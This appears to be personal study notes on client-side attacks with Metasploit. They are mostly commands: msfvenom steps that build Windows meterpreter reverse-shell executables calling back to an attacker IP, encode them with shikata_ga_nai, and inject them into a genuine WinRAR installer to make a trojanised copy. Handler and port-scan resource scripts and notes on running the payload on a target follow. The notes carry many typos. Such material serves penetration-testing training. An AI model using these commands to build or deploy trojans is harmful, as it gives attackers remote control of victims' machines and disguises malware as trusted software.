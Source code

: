 ## Client Side Attacks
- windows: exe dll
- linux: elf
### Msfvenom Creating Payloads
- msfvenom --list payload
- msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=<attacker-ip> Lport=1234 -f exe > winpayload.exe
- msfvenom --list formats
- msfconsole
- use multi/handler
- set payload same paload use while creating payloaf
- set lhost and lport
### encoding palyload with msfvenom
- msfvenom --list encoders
- msfvenom -p windows/meterepreter/reverse_tcp  LHOST=_<attackers-ip> LPORT=1234 -e x86/shikata_ga_nai -f exe > ~/Desktop/payload/encoded_payload.exe
- msfvenom -p windows/meterepreter/reverse_tcp  LHOST=_<attackers-ip> LPORT=1234 -i 10 -e x86/shikata_ga_nai -f exe > ~/Desktop/payload/encoded_payload.exe
-

### Injectiong Payloads into windows portable Executables
- Download WinRAR
- msfvenom -p windows/meterepreter/reverse_tcp  LHOST=_<attackers-ip> LPORT=1234 -e x86/shikata_ga_nai -f exe -x ~/Downloads/wrar602.exe > ~/Desktop/payload/winrar.exe
- set multi handler
- upload and run it on windows system.
- option -k to maintain the setup functionality
- in meterpreter
- rub post/windows/manage/migrate


### Automating Metasploit With Resource Scripts
- ls -al /usr/share/metasploit-framework/scripts/resource
- write this in single file
```
use multi/handler
set pyload windows/meterpreter/reverse_tcp
set lhost <attacker-ip>
set lport 1234
run
```
- save as handler.rc- msfconsole -r handler.rc
- nano portscan.rc
```
use auxiliary/scanner/portscan/tcp
set rhosts <target-ip>
run
```
- msfconsole -r portscan.rc
- nano db_status.rc
```
db_status
workspace
workspace -a test
```
- msfconsole
- resource ~/Desktop/handler.rc
- msfconsole
- use portscan set run
- makerc ~/Desktop/portscan.rc
